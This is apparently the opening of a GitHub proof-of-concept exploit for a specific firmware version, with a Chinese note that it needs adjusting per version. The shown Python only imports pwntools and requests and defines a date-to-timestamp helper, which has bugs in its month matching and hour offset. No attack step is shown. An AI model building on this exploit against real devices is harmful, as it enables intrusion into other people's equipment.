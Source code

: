 # POC 
POC需要根据不同版本调整
</br>
以下是争对3.0.0.4.384.45713固件版本的POC
<sup> 


  
    
    #coding=utf-8
    from pwn import *
    import re
    import time
    import requests
    import urlparse
    import urllib3
    urllib3.disable_warnings()
    import sys

    def rematch(strTmp):
        tm_year = strTmp[0][2]
        tm_month = strTmp[0][1]
        tm_day = strTmp[0][0]
        tm_hour = strTmp[0][3]
        tm_min = strTmp[0][4]
        tm_sec = strTmp[0][5]
        if tm_month == 'Jan':
            tm_month = '01'
        if tm_month == 'Feb':
            tm_month = '02'
        if tm_month == 'Mar':
            tm_month = '03'
        if tm_month == 'Apr ':
            tm_month = '04'
        if tm_month == 'May':
            tm_month = '05'
        if tm_month == 'Jun':
            tm_month = '06'
        if tm_month == 'Jul':
            tm_month = '07'
        if tm_month == 'Aug':
            tm_month = '08'
        if tm_month == 'Sept':
            tm_month = '09'
        if tm_month == 'Oct':
            tm_month = '10'
        if tm_month == 'Nov':
            tm_month = '11'
        if tm_month == 'Dec':
            tm_month = '12'
        tm_hour = int(tm_hour) + 8  # +8对应时区
        time_tmp = '{}-{}-{} {}:{}:{}'.format(tm_year, tm_month, tm_day, tm_hour, tm_min, tm_sec)
        print(time_tmp)
        ts = time.strptime(time_tmp, "%Y-%m-%d %H:%M:%S")
        timeStamp= int(time.mktime(ts))
        return timeStamp
